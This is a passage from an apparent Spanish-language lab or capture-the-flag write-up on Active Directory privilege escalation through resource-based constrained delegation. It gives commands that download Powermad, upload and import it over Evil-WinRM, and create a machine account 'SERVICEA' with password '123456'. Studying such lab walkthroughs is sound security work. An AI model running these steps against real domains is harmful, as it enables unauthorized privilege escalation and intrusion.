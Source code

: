 <figure><img src="../../../.gitbook/assets/868_vmware_ACLOwoh8nr.png" alt=""><figcaption></figcaption></figure>

Procederemos a realiar la explotación de dicha vulnerabilidad para realizar un escalado de privilegios. Para ello hemos seguido la guía de [**HackTricks** ](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/resource-based-constrained-delegation#configuring-resource-based-constrained-delegation)donde lo explica de manera detallada y te muestra que se tiene que realizar.

Primero de todo, en nuestra Kali procederemos a descargarnos el Powermad para pasarlo al equipo que queremos comprometer des de Evil-WinRM.&#x20;

Des del equipo que queremos comprometer, procederemos a subirnos el archivo .ps1, importaremos el módulo y procederemos a realizar el ataque.

Procederemos a crear con **Powermad** un equipo llamado "SERVICEA" y le asignaremos de contraseña '123456'

<pre class="language-powershell" data-overflow="wrap"><code class="lang-powershell">wget https://raw.githubusercontent.com/Kevin-Robertson/Powermad/refs/heads/master/Powermad.ps1

upload Powermad.ps1
<strong>
</strong><strong>Import-Module .\Powermad.ps1
</strong>
New-MachineAccount -MachineAccount SERVICEA -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
</code></pre>

<figure><img src="../../../.gitbook/assets/867_vmware_ZMhwWDPSWp.png" alt=""><figcaption></figcaption></figure>
